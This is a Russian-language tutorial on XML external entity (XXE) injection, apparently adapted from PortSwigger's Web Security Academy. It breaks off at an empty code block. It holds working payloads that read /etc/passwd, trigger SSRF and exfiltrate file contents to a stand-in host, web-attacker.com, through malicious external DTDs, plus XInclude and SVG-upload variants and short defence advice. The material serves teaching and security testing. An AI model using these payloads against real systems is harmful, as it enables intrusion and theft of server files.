

https://portswigger.net/web-security/xxe
# 1.3  XML external entity (XXE) injection
## Что такое инъекция внешней сущности XML?
`Внешняя инъекция XML` (также известная как `XXE`) - это уязвимость веб-безопасности, которая позволяет злоумышленнику вмешиваться в обработку `XML-данных` приложения. Это часто позволяет злоумышленнику просматривать файлы в файловой системе сервера приложений и взаимодействовать с любыми внутренними или внешними системами, к которым может получить доступ само приложение.

В некоторых ситуациях злоумышленник может усилить атаку `XXE`, чтобы скомпрометировать базовый сервер или другую внутреннюю инфраструктуру, используя уязвимость `XXE` для выполнения атак подделки запроса на стороне сервера (`SSRF`). 



## Как возникают уязвимости XXE?
Некоторые приложения используют формат `XML` для передачи данных между браузером и сервером. Приложения, которые делают это, практически всегда используют стандартную библиотеку или API платформы для обработки данных XML на сервере. 

Уязвимости `XXE` (XML External Entity, внешние сущности XML) появляются из‑за особенностей спецификации `XML`: она предусматривает ряд потенциально опасных функций. Стандартные `XML‑парсеры` по умолчанию поддерживают эти функции — даже в тех случаях, когда конкретное приложение их не использует.

`Внешние объекты XML` (XML External Entities) — это сущности, определённые в XML‑документе, значения которых загружаются извне `DTD` (Document Type Definition, определения типа документа), где они были объявлены. С точки зрения безопасности эти объекты представляют особый риск: они позволяют ссылаться на данные за пределами самого документа — например, указывать путь к файлу на сервере или URL‑адрес в сети.

## XML-сущности
### Что такое XML?
`XML` (eXtensible Markup Language, «расширяемый язык разметки») — это формат для хранения и передачи данных. Как и `HTML`, он использует древовидную структуру из тегов и данных внутри них. Но в отличие от `HTML` у `XML` нет заранее заданных тегов: вы можете создавать собственные имена для тегов — так, чтобы они точно описывали хранимые данные. Например, теги `<client>`, `<order>` или `<price>` сразу показывают, какая информация находится внутри.

Раньше `XML` широко применялся для обмена данными в Интернете (буква «X» в AJAX как раз означает «XML»), но сейчас его чаще заменяют более компактным форматом JSON.

### Что такое XML сущности?
XML‑сущности — это специальные обозначения, объекты, которые позволяют представлять определённые символы или фрагменты данных, не вставляя их напрямую в документ. В XML есть встроенные сущности для служебных символов. Например, субъекты:
* `&lt;` означает символ `<` (меньше);
* `&gt;` означает символ `>` (больше).

Эти символы используются для обозначения начала и конца XML‑тегов. Если они встречаются в самих данных (например, в тексте), их нужно заменять на соответствующие сущности — иначе парсер воспримет их как часть разметки и выдаст ошибку.

### Что такое определение типа документа (DTD)?
`DTD` (Document Type Definition, «определение типа документа») — это набор правил, описывающих структуру XML‑документа: какие теги допустимы, в каком порядке они должны идти, какие типы данных могут содержать и т. д.

`DTD` указывается с помощью необязательного элемента `DOCTYPE` в начале XML‑документа. Он может располагаться:
* внутри самого документа (так называемый `«внутренний DTD»`);
* во внешнем файле, который загружается по ссылке (так называемый `«внешний DTD»`);
* в гибридном варианте — часть правил внутри документа, часть — во внешнем файле.

### Что такое пользовательские XML-сущности в DTD?
`XML` позволяет создавать собственные (пользовательские) сущности прямо в `DTD`. Это удобно, если какой‑то фрагмент данных повторяется много раз — достаточно определить сущность один раз и использовать её ссылку везде. Например:
```html
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
```
Это определение означает, что любое использование ссылки на объект `&myentity;` в рамках `XML` документа будет заменено на определенное значение: `"my entity value"`.

### Что такое внешние сущности XML?
Внешние XML‑сущности (`XXE`, `XML External Entities`) — это пользовательские сущности, чьё определение находится вне `DTD`, в котором они объявлены. Вместо фиксированного значения такая сущность ссылается на внешний ресурс — файл или URL.

Для объявления внешней сущности используется ключевое слово `SYSTEM`, после которого указывается адрес источника данных. Например:
1. **Загрузка данных** с веб‑сайта:
```xml
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com"> ]>
```
2. **Чтение файла** с сервера через протокол `file://`:
```xml
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file"> ]>
```
Именно возможность загружать данные извне делает внешние сущности опасным инструментом — они лежат в основе `XXE‑атак` (атак внешних XML‑сущностей).

## Какие бывают типы атак XXE?
Существует несколько основных видов атак с использованием `XXE` (XML External Entity):
1. `Извлечение файлов`. Злоумышленник настраивает внешнюю сущность так, чтобы она считывала содержимое файла на сервере (например, `/etc/passwd` в Linux) и возвращала его в ответе приложения.
2. `SSRF‑атаки` (Server‑Side Request Forgery). Внешняя сущность ссылается на URL внутренней системы. Это позволяет атаковать внутренние сервисы, недоступные извне.
3. `Слепые XXE‑атаки с передачей данных`. Конфиденциальная информация с сервера отправляется во внешнюю систему, контролируемую злоумышленником (например, через HTTP‑запрос к серверу атакующего).
4. `Слепые XXE‑атаки через сообщения об ошибках`. Злоумышленник провоцирует ошибку в парсере XML. В тексте ошибки могут оказаться конфиденциальные данные (например, фрагменты конфигурационных файлов).

## 1. Эксплуатация XXE для извлечения файлов
Чтобы выполнить XXE‑атаку и извлечь произвольный файл с сервера, нужно внести два изменения в XML:
* Добавить или отредактировать элемент `DOCTYPE`, чтобы определить внешнюю сущность с путём к нужному файлу. Например, указать `file:///etc/passwd`.
* Вставить ссылку на эту сущность в часть `XML‑документа`, содержимое которой возвращается в ответе приложения (например, в поле `<productId>`).

Например, предположим, что приложение для покупок проверяет уровень запаса продукта, отправив на сервер следующий XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
Приложение не выполняет никаких конкретных защит от атак `XXE`, поэтому вы можете использовать уязвимость `XXE` для извлечения `/etc/passwd` подать, отправив следующую полезную нагрузку XXE:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
Эта полезная нагрузка `XXE`:
* определяет внешнюю сущность `&xxe;` — её значение загружается из файла `/etc/passwd`;
* использует эту сущность внутри поля `<productId>`.

В результате приложение возвращает ошибку, в тексте которой оказывается содержимое файла:
```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
В реальных XXE‑уязвимостях XML‑документ часто содержит множество полей (узлов данных), любое из которых может оказаться в ответе приложения. Чтобы проверить наличие уязвимости, нужно:
* Последовательно подставлять внешнюю сущность (`&xxe;`) в каждое поле XML.
* Отправлять запрос и анализировать ответ сервера.
* Проверять, появилось ли содержимое файла (или другой тестовый текст) в ответе. Если да — уязвимость подтверждена.

## 2. Эксплуатация XXE для выполнения SSRF-атак
Помимо извлечения конфиденциальных данных, атаки `XXE` (XML External Entity) могут использоваться для проведения `SSRF‑атак` (Server‑Side Request Forgery, подделка запросов на стороне сервера).

`SSRF` — это серьёзная уязвимость. Она позволяет злоумышленнику заставить серверное приложение отправлять HTTP‑запросы на произвольные URL‑адреса — в том числе на внутренние сервисы организации, недоступные извне. Например, атакующий может:
* получить доступ к внутренним API;
* просканировать внутренние порты;
* взаимодействовать с сервисами, защищёнными только сетевой изоляцией.

Чтобы выполнить `SSRF‑атаку` через уязвимость `XXE`, нужно:
* Определить внешнюю `XML‑сущность`, указав в ней целевой URL‑адрес (куда должен быть отправлен запрос).
* Вставить ссылку на эту сущность в часть `XML‑документа`, которая возвращается в ответе приложения.

Если это удалось, злоумышленник получает двустороннее взаимодействие: он видит ответ от целевого URL прямо в ответе сервера. Это позволяет:
* читать содержимое внутренних ресурсов;
* получать ответы от внутренних API.

Если же ответ от целевого URL не возвращается в ответе приложения, атакующий может выполнить `слепую SSRF‑атаку`. В этом случае он не видит результат запроса, но может:
* проверять доступность внутренних хостов (по времени ответа или кодам ошибок);
* запускать действия на внутренних системах (например, перезагрузку сервиса);
* провоцировать отправку уведомлений или логов на сервер атакующего.

Даже `слепые SSRF‑атаки` могут привести к критическим последствиям — например, к компрометации внутренних систем.

Рассмотрим пример `XXE‑полезной` нагрузки, которая заставит сервер выполнить HTTP‑запрос к внутреннему ресурсу организации:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
Как это работает:
1. При обработке XML‑документа парсер видит внешнюю сущность `&xxe;`.
2. Согласно `DTD`, он пытается загрузить данные по указанному URL (http://internal.vulnerable-website.com/).
3. Сервер отправляет HTTP‑запрос на этот адрес — даже если он относится к внутренней сети организации.
4. В зависимости от конфигурации приложения, ответ от внутреннего ресурса может быть:
    * возвращён в ответе сервера (двусторонняя атака);
    * обработан без вывода (слепая атака).

**Важные нюансы**:
* URL может указывать на любой ресурс, доступный серверу: внутренние IP‑адреса, домены корпоративной сети, локальные сервисы (localhost).
* Атакующий может менять URL, чтобы исследовать внутреннюю инфраструктуру.
* Некоторые парсеры поддерживают не только `http://`, но и `https://`, `ftp://`, `file://` — это расширяет возможности атаки.

## 3. Слепые уязвимости XXE
Многие случаи уязвимости `XXE` являются слепыми. Это означает, что приложение не возвращает значения каких-либо определенных внешних сущностей в своих ответах, и поэтому прямой поиск файлов на стороне сервера невозможен.

Слепые уязвимости `XXE` все еще могут быть обнаружены и использованы, но требуются более совершенные методы. Иногда вы можете использовать внеполосные методы, чтобы найти уязвимости и использовать их для извлечения данных. И иногда вы можете вызвать ошибки разбора `XML`, которые приводят к раскрытию конфиденциальных данных в сообщениях об ошибках. 

Существует два основных способа, которыми вы можете найти и использовать слепые уязвимости `XXE`:
* Вы можете инициировать внеполосные сетевые взаимодействия, иногда эксфильтрируя конфиденциальные данные в данные взаимодействия.
* Вы можете вызвать ошибки разбора `XML` таким образом, чтобы сообщения об ошибках содержали конфиденциальные данные.

### 3.1 Обнаружение слепых XXE с использованием внеполосных (OAST) методов
`Слепые XXE‑атаки` можно обнаружить с помощью той же техники, что и `SSRF‑атаки`, но с одним отличием: вместо взаимодействия с внутренними системами атакующий запускает внеполосное взаимодействие с сервером, который контролирует сам.

Как это работает:
1. Злоумышленник определяет внешнюю XML‑сущность, указывающую на подконтрольный ему домен:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```
2. Затем он вставляет ссылку на эту сущность (`&xxe;`) в часть XML‑документа, обрабатываемую приложением.
3. При обработке XML парсер пытается загрузить данные с указанного URL.
4. Сервер отправляет HTTP‑запрос и выполняет DNS‑поиск для разрешения домена.
5. Злоумышленник, контролирующий домен `f2g9j7hhkax.web-attacker.com`, видит этот запрос в логах.
6. По факту получения запроса атакующий понимает, что `XXE‑уязвимость` присутствует.

#### Использование сущностей параметров XML при блокировке обычных XXE
Иногда обычные XXE‑атаки блокируются:
* из‑за валидации входных данных приложением;
* из‑за усиленной защиты `XML‑парсера` (например, отключены внешние сущности).

В таких случаях злоумышленники могут использовать сущности параметров `XML` (XML Parameter Entities). Это специальный тип сущностей, которые:
* могут быть объявлены только внутри `DTD`;
* доступны только внутри `DTD` (не могут использоваться в основном теле XML‑документа);
* позволяют обойти некоторые защитные механизмы.

Чтобы использовать сущности параметров, нужно учитывать два ключевых отличия от обычных сущностей:
1. Объявление сущности параметра начинается с символа `%`:
```xml
<!ENTITY % myparameterentity "my parameter entity value">
```
2. Ссылка на сущность параметра также использует символ `%` вместо `&`:
```
%myparameterentity;
```
Пример: обычная сущность объявляется как `<!ENTITY myentity "value">` и вызывается через `&myentity;`. Сущность параметра объявляется как `<!ENTITY % myparam "value">` и вызывается через `%myparam;`.

С помощью сущностей параметров можно проверить наличие слепой `XXE‑уязвимости` методом внеполосного обнаружения. Пример полезной нагрузки:
```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```
Как это работает:
1. В `DTD` объявляется сущность параметра `%xxe`, которая ссылается на внешний домен атакующего.
2. Сразу после объявления эта сущность вызывается внутри `DTD` через `%xxe;`.
3. При обработке `DTD` парсер пытается загрузить содержимое по указанному URL.
4. Происходит DNS‑поиск домена и отправляется HTTP‑запрос.
5. Атакующий, контролирующий домен, видит этот запрос в логах своего сервера.
6. Факт получения запроса подтверждает наличие `XXE‑уязвимости`, даже если ответ сервера не содержит данных (слепая атака).

### 3.2 Эксплуатация слепого XXE для извлечения данных из диапазона
Обнаружение `слепой XXE‑уязвимости` с помощью внеполосных методов — важный шаг, но он лишь подтверждает наличие проблемы. Главная цель злоумышленника — эксфильтрация (кража) конфиденциальных данных.

Это возможно даже при `слепой XXE‑уязвимости`, но требует двух шагов:
1. Разместить вредоносный `DTD` (Document Type Definition) на подконтрольной системе (например, на собственном веб‑сервере атакующего).
2. Встроить вызов этого внешнего `DTD` в полезную нагрузку XXE, отправляемую на уязвимое приложение.

Пример вредоносного `DTD` для эксфильтрации содержимого `/etc/passwd`:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
Как работает этот DTD:
1. Сущность `%file` считывает содержимое файла `/etc/passwd` с сервера жертвы.
2. Сущность `%eval` содержит динамическое объявление другой сущности — `%exfiltrate`. Эта сущность формирует HTTP‑запрос к серверу атакующего, включая значение `%file` (т. е. содержимое `/etc/passwd`) в строке запроса URL:
```
http://web-attacker.com/?x=root:x:0:0:root:/root:/bin/bash...
```
3. Вызов `%eval;` запускает динамическое создание сущности `%exfiltrate`.
4. Вызов `%exfiltrate;` инициирует HTTP‑запрос к серверу атакующего. В результате содержимое файла `/etc/passwd` отправляется на подконтрольный злоумышленнику ресурс.

Злоумышленник размещает вредоносный `DTD` на своём веб‑сервере, чтобы сделать его доступным по URL. Например:
```
http://web-attacker.com/malicious.dtd
```
Это позволяет ссылаться на `DTD` из полезной нагрузки `XXE`, отправленной на уязвимое приложение.

Злоумышленник отправляет на уязвимое приложение следующую полезную нагрузку XXE:
```xml
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd">
  %xxe;
]>
```
Как это работает:
1. Сущность `%xxe` ссылается на внешний `DTD` по указанному URL.
2. При обработке `XML` парсер загружает вредоносный `DTD` с сервера атакующего.
3. Парсер интерпретирует `DTD` и выполняет описанные в нём действия (чтение файла `/etc/passwd`, формирование HTTP‑запроса).
4. Содержимое файла `/etc/passwd` передаётся на сервер атакующего через HTTP‑запрос.

#### Ограничения и обходные пути
Этот метод может не сработать, если файл содержит символы, недопустимые в URL (например, переносы строк в `/etc/passwd`). Причина в том, что некоторые XML‑парсеры проверяют символы в URL и блокируют запросы с некорректными последовательностями.

Способы обхода:
* Использовать протокол FTP вместо HTTP для передачи данных — он менее строг к символам.
* Целиться в файлы с более простым содержимым — например, `/etc/hostname` (обычно содержит одно слово без специальных символов).
* Применять кодирование данных (например, `Base64`) перед отправкой в URL, чтобы избежать проблемных символов.

### 3.3 Эксплуатация слепого XXE для извлечения данных с помощью сообщений об ошибках
Существует альтернативный способ эксплуатации `слепой XXE‑уязвимости`: вызвать ошибку разбора XML, в тексте которой окажутся нужные злоумышленнику конфиденциальные данные.

Этот метод работает, только если приложение:
* обрабатывает `XML` с использованием уязвимого парсера;
* возвращает пользователю сообщение об ошибке (полностью или частично).

Чтобы получить содержимое файла `/etc/passwd` через ошибку XML, злоумышленник может использовать вредоносный внешний `DTD`:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
Как работает этот DTD:
1. Сущность `%file` считывает содержимое файла `/etc/passwd` с сервера жертвы.
2. Сущность `%eval` содержит динамическое объявление другой сущности — `%error`. Эта сущность формирует запрос к несуществующему файлу, чьё имя включает содержимое `%file` (т. е. данные из `/etc/passwd`).
3. Вызов `%eval;` запускает создание сущности `%error` с подставленным содержимым файла.
4. Вызов `%error;` заставляет парсер попытаться загрузить несуществующий файл. Поскольку путь некорректен, парсер генерирует ошибку. В тексте ошибки указывается полный путь к файлу — то есть содержимое `/etc/passwd`.

Когда XML‑парсер попытается обработать этот `DTD`, он сгенерирует ошибку, похожую на следующую:
```
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
Разбор сообщения об ошибке:
1. `java.io.FileNotFoundException` — тип ошибки (файл не найден);
2. `/nonexistent/...` — путь, который пытался загрузить парсер;
3. всё после `/nonexistent/` — это и есть содержимое файла `/etc/passwd`, подставленное в имя файла.

Таким образом, злоумышленник получает доступ к конфиденциальным данным через текст ошибки, возвращаемый приложением.

### 3.4 Эксплуатация слепого XXE путем перепрофилирования локального DTD
Предыдущая техника эксфильтрации данных через `XXE` хорошо работает с `внешними DTD`, но обычно не срабатывает с `внутренними DTD` (полностью указанными внутри элемента `DOCTYPE`).

Причина в ограничении спецификации XML:
* во `внешних DTD` разрешено использовать сущность параметра `XML` в определении другой сущности параметра;
* во `внутренних DTD` такое использование запрещено (хотя некоторые парсеры могут это допускать, большинство — нет).

Если внеполосные (`out‑of‑band`) взаимодействия заблокированы, злоумышленник не может:
* эксфильтровать данные через внешнее соединение;
* загрузить `внешний DTD` с удалённого сервера.

Но даже в таких условиях можно попытаться получить конфиденциальные данные — используя лазейку в спецификации `XML`.

#### Лазейка в спецификации XML
Даже при блокировке внеполосных взаимодействий можно вызвать сообщение об ошибке с конфиденциальными данными. Для этого используется особенность XML при работе с `гибридными DTD` (сочетание внутренних и внешних деклараций):
* `Внутренний DTD` может переопределить сущности, объявленные во `внешнем DTD`.
* При таком переопределении ослабляется ограничение на использование сущности параметра XML в определении другой сущности параметра.

# *НУЖЕН ПРИМЕР !!!!!!!!*

Это позволяет эксплуатировать `слепой XXE` изнутри `внутреннего DTD` — если переопределяемая сущность объявлена во `внешнем DTD`.
Принцип атаки

Злоумышленник может использовать метод на основе ошибок внутри `внутреннего DTD`, если:
* переопределяемая сущность параметра XML объявлена во `внешнем DTD`;
* `внешний DTD` является локальным для сервера (не загружается из сети).

Как это работает:
1. Злоумышленник находит существующий локальный DTD‑файл на сервере.
2. Он переопределяет одну из сущностей в этом файле.
3. Переопределённая сущность запускает эксплойт на основе ошибок, который вызывает сообщение об ошибке, содержащее конфиденциальные данные (например, содержимое /etc/passwd).

Этот метод был впервые продемонстрирован Арсением Шарогославовым и вошёл в топ‑10 техник веб‑взлома 2018 года (7‑е место).

#### Пример атаки
Предположим, на сервере есть DTD‑файл: `/usr/local/app/schema.dtd`. Он содержит сущность `custom_entity`.

Злоумышленник может запустить сообщение об ошибке XML, содержащее содержимое файла `/etc/passwd`, отправив `гибридный DTD`, как следующее:
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
`&#x25;` это знак процента (%)

Как работает этот DTD:
1. `%local_dtd` загружает внешний DTD‑файл с сервера (`/usr/local/app/schema.dtd`).
2. `%custom_entity` переопределяет существующую сущность из `внешнего DTD`. Внутри неё:
    * `%file` считывает содержимое /etc/passwd;
    * `%eval` динамически объявляет сущность `%error`, формирующую запрос к несуществующему файлу (путь включает содержимое /etc/passwd);
    * `%error` инициирует ошибку, в тексте которой оказывается содержимое файла.
3. `%local_dtd;` заставляет парсер интерпретировать `внешний DTD` вместе с переопределённой сущностью `%custom_entity`. В результате генерируется ошибка с конфиденциальными данными.

#### Поиск существующего файла DTD для перепрофилирования
Чтобы провести атаку `XXE с перепрофилированием DTD`, нужно сначала найти подходящий DTD‑файл в файловой системе сервера. Это вполне выполнимая задача, если приложение возвращает сообщения об ошибках, генерируемые XML‑парсером.

Суть метода проста: злоумышленник пытается загрузить `локальные DTD‑файлы` из `внутреннего DTD`. По реакции приложения можно понять, какие файлы действительно существуют на сервере: если файл есть — загрузка пройдёт успешно, если нет — парсер выдаст ошибку, которая будет передана в ответе приложения.

В Linux‑системах с окружением GNOME часто встречается DTD‑файл по пути `/usr/share/yelp/dtd/docbookx.dtd`. Проверить, есть ли этот файл на сервере, можно с помощью следующей полезной нагрузки XXE:
```xml
<!DOCTYPE foo [
  <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
  %local_dtd;
]>
```
Если файл присутствует, XML‑парсер успешно его загрузит, и приложение, скорее всего, вернёт обычный ответ (или не выдаст никакой ошибки). Если же файла нет, парсер сгенерирует ошибку (например, `FileNotFoundException` или `I/O error`), которую приложение передаст в своём ответе. Так злоумышленник поймёт, что указанный путь не существует.

После того как злоумышленник протестировал список распространённых путей и нашёл существующий DTD‑файл, ему нужно получить его копию и изучить содержимое. Цель — выявить сущности (например, `custom_entity`), которые можно переопределить в рамках атаки.

Поскольку многие системы, использующие DTD‑файлы, основаны на открытом исходном коде, получить копию нужного файла обычно несложно: его можно найти через поиск в Интернете (например, на GitHub или в репозиториях дистрибутивов) либо скачать соответствующий пакет ПО и извлечь DTD локально. Это позволит детально проанализировать структуру файла и спланировать дальнейшие шаги атаки.

## 4. Обнаружение скрытой поверхности атаки для инъекции XXE
Поверхность атаки для уязвимостей инъекций XXE не всегда очевидна. В одних случаях она легко обнаруживается — например, когда приложение активно использует XML в HTTP‑запросах. В других случаях уязвимость скрыта: она может присутствовать в запросах, которые внешне не содержат XML‑данных.

### 4.1 XInclude‑атаки
Некоторые приложения обрабатывают клиентские данные так:
1. Получают данные от клиента.
2. Встраивают их на стороне сервера в XML‑документ.
3. Анализируют получившийся документ (например, передают во внутренний SOAP‑запрос, который обрабатывает бэкэнд‑сервис).

В такой ситуации классическая атака `XXE` невозможна: злоумышленник не контролирует весь XML‑документ и не может изменить или добавить элемент `DOCTYPE`.

Но есть альтернатива — `XInclude`. Это часть спецификации `XML`, позволяющая собирать XML‑документ из нескольких поддокументов. Особенность `XInclude` в том, что его можно внедрить в любое поле данных внутри `XML`. Это значит: даже если вы контролируете лишь один элемент, который встраивается в XML на сервере, вы всё равно можете провести атаку.

Для выполнения `XInclude‑атаки` необходимо:
* Указать пространство имён `XInclude`.
* Задать путь к файлу, который нужно включить.

Пример полезной нагрузки:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```
Что происходит при атаке:
1. сервер получает данные с внедрённым `XInclude`;
2. встраивает их в XML‑документ;
3. парсер обрабатывает `XInclude` и пытается загрузить файл по указанному пути (/etc/passwd);
4. содержимое файла может быть возвращено в ответе приложения или использовано для других вредоносных действий.

### 4.2 Атаки XXE через загрузку файлов
Ещё один скрытый вектор атаки — загрузка файлов. Некоторые приложения позволяют пользователям загружать файлы, которые затем обрабатываются на сервере. Если обрабатываемая библиотека поддерживает форматы на основе XML, это создаёт поверхность атаки для XXE.

Какие форматы опасны:
* офисные документы (DOCX, ODT и т.д.);
* векторные изображения (SVG);
* другие форматы, включающие XML‑субкомпоненты.

Предположим, приложение позволяет загружать изображения и проверяет их на сервере. Оно ожидает форматы PNG или JPEG, но используемая библиотека также поддерживает SVG. Поскольку SVG основан на XML, злоумышленник может:
1. Создать SVG‑файл с внедрённой XXE‑полезной нагрузкой.
2. Загрузить этот файл на сервер.
3. При обработке файла XML‑парсер выполнит XXE‑атаку.

Как это работает:
1. приложение принимает загруженный SVG‑файл;
2. библиотека обработки изображений парсит XML внутри SVG;
3. если парсер уязвим к `XXE`, он выполнит вредоносные действия (например, прочитает `/etc/passwd` или отправит запросы на внутренние сервисы);
4. злоумышленник получает доступ к конфиденциальным данным или выполняет другие действия на сервере.

Типичные цели для чтения:
* /etc/passwd (информация о пользователях);
* конфигурационные файлы приложений;
* файлы с учётными данными;
* внутренние API‑эндпоинты.

### 4.3 Атаки XXE с помощью модифицированного типа контента
Многие веб‑приложения ожидают POST запросы и получать данные в стандартном формате, например `application/x‑www‑form‑urlencoded` (тип контента по умолчанию для HTML‑форм). Однако некоторые из них могут обрабатывать и другие типы контента — в том числе XML. Это создаёт скрытую поверхность атаки для уязвимостей `XXE` (XML External Entity).

Злоумышленник может воспользоваться этой особенностью: достаточно переформатировать обычный HTTP‑запрос, заменив тип контента на `text/xml` и упаковав данные в XML‑структуру. Если приложение примет такой запрос и обработает его содержимое как XML, появится возможность провести XXE‑атаку.

Обычный запрос с типом контента `application/x-www-form-urlencoded`:
```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
foo=bar
```
Тот же запрос, переформатированный с использованием XML (`text/xml`):
```http
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52
<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
Как видно из примеров:
* функционально запросы эквивалентны — передают одно и то же значение (bar) для параметра foo;
* во втором случае данные упакованы в XML‑документ;
* длина тела запроса изменилась из‑за добавления XML‑разметки.

Если приложение:
* Принимает запросы с `Content-Type: text/xml`.
* Обрабатывает тело запроса как XML (используя XML‑парсер).
* Не имеет должной защиты от `XXE‑атак` (например, отключены внешние сущности или не настроена валидация),

— злоумышленник может внедрить в XML‑запрос XXE‑полезную нагрузку.

Пример модифицированного запроса с XXE:
```http
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 150
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```
Что происходит при обработке такого запроса:
1. сервер получает запрос с типом контента `text/xml`;
2. XML‑парсер начинает обработку тела запроса;
3. парсер встречает объявление внешней сущности (SYSTEM "file:///etc/passwd");
4. парсер пытается загрузить содержимое файла /etc/passwd;
5. содержимое файла подставляется вместо сущности `&xxe;`;
6. в зависимости от логики приложения, содержимое /etc/passwd может быть:
    * возвращено в ответе (прямая эксфильтрация);
    * записано в лог;
    * использовано в других операциях, приводящих к утечке данных.

#### Условия успешности атаки
Для успешной эксплуатации уязвимости необходимо, чтобы выполнялись следующие условия:
* приложение принимало запросы с `Content-Type: text/xml` (или другими XML‑типами);
* приложение обрабатывало тело запроса как XML‑документ (используя уязвимый парсер);
* в настройках парсера не были отключены внешние сущности (XXE);
* приложение каким‑либо образом возвращало или использовало данные, полученные через XXE (для эксфильтрации или других действий).

#### Рекомендации по защите
Чтобы предотвратить такие атаки, разработчикам следует:
* явно указывать ожидаемый тип контента и отклонять запросы с неожиданными `Content‑Type`;
* отключать обработку внешних сущностей (`XXE`) в XML‑парсерах;
* валидировать и санитировать входные данные;
* использовать безопасные библиотеки и конфигурации парсеров;
* ограничивать доступ XML‑парсера к файловой системе и сетевым ресурсам.

## 5. Как найти и проверить на уязвимости XXE
Подавляющее большинство уязвимостей `XXE` (XML External Entity) можно быстро и надёжно обнаружить с помощью веб‑сканера уязвимостей `Burp Suite`. Однако ручное тестирование также важно — оно позволяет глубже проверить систему и выявить нюансы, которые могут быть пропущены автоматизированными инструментами.

### Методы ручного тестирования на уязвимости XXE
### 5.1 Поиск файлов через внешние сущности
Проверяется, может ли приложение считывать локальные файлы через `XXE`. Для этого:
* определяют внешний объект, ссылающийся на известный файл ОС (например, /etc/passwd в Linux или C:\Windows\win.ini в Windows);
* внедряют этот объект в XML‑запрос;
* отправляют запрос и анализируют ответ приложения — если в нём появилось содержимое файла, уязвимость подтверждена.

Пример полезной нагрузки:
```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>
```
### 5.2 Тестирование на слепые уязвимости XXE с использованием Burp Collaborator
Применяется, когда приложение не возвращает содержимое файлов напрямую, но взаимодействует с внешними ресурсами. Порядок действий:
* создают внешний объект, ссылающийся на URL подконтрольной системы (например, уникальный домен Burp Collaborator);
* отправляют XML‑запрос с этой сущностью;
* мониторят взаимодействие с подконтрольной системой (запросы DNS, HTTP и т. д.);
* если фиксируется обращение к указанному URL — уязвимость существует.

Пример полезной нагрузки:
```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://abc123.burpcollaborator.net">
]>
<data>&xxe;</data>
```
### 5.2 Проверка на уязвимое включение пользовательских данных через XInclude
Используется, если приложение встраивает пользовательские данные в XML на стороне сервера, но не позволяет модифицировать весь документ (и, следовательно, добавить `DOCTYPE`). В этом случае применяют атаку `XInclude`:
* внедряют конструкцию `XInclude` в поле данных;
* указывают путь к локальному файлу;
* проверяют, появилось ли содержимое файла в ответе приложения.

Пример полезной нагрузки:
```xml
